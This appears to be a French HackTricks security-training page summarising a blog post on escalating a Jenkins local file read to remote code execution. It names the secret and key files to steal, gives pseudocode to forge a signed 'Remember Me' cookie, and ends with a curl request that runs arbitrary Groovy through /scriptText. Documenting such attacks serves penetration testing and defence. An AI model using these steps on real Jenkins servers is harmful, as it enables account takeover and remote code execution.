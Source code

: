 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichier local dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie de l'article où la création d'un cookie arbitraire est exploitée pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'ai le temps de créer un résumé moi-même :

### Prérequis à l'attaque

- **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
- **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
- **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel à partir de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération des informations utilisateur**

- Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
- **Nom d'utilisateur**
- **Graine utilisateur**
- **Horodatage**
- **Hash du mot de passe**

**Extraction de la clé secrète**

- Extraire les clés cryptographiques utilisées pour signer le cookie :
- **Clé secrète :** `$JENKINS_HOME/secret.key`
- **Clé maître :** `$JENKINS_HOME/secrets/master.key`
- **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forging de cookie

**Préparation du token**

- **Calculer le temps d'expiration du token :**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Ajoute une heure au temps actuel
```

- **Concaténer les données pour le token :**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Déchiffrement de la clé MAC**

- **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

- **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey) // Calculer HMAC en utilisant le token et la clé MAC
tokenSignature = bytesToHexString(mac) // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

- **Générer le cookie final :**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Encoder en base64 les données du cookie
```

#### Étape 3 : Exécution de code

**Authentification de session**

- **Récupérer les tokens CSRF et de session :**
- Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
- Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

- **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{{#include ../../banners/hacktricks-training.md}}
